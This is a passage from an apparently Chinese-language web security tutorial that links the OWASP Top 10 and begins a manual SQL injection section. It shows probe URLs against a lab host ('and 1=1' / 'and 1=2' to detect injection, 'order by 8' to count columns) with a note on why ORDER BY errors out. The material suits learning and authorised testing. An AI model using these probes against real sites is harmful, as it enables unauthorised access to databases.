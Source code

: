     ![WooYun](../images/20210312/wooyun.png)

  #### 0x16.文档
    - [OWASP Top10](https://www.owasp.org/images/5/58/OWASP_Top_10_2017_%E4%B8%AD%E6%96%87%E7%89%88v1.2.pdf)
---
- ### Part II
  #### 0x00: 手工注入
  ##### 判断是否存在注入
  ``` bash
  http://192.168.36.129:3000/sqli_2.php?movie=6 and 1=1 页面正常
  ```
  ``` bash
  http://192.168.36.129:3000/sqli_2.php?movie=6 and 1=2 页面异常
  ```
  ##### 暴露基本信息
  ``` bash
  http://192.168.36.129:3000/sqli_2.php?movie=6 order by 8 错误
  ```
  >Tips: [ORDER BY {col_name | expr | position} [ASC | DESC], …],这里传入的是position排序，根据某个potion排序，当超过表字段数量时就会报错。
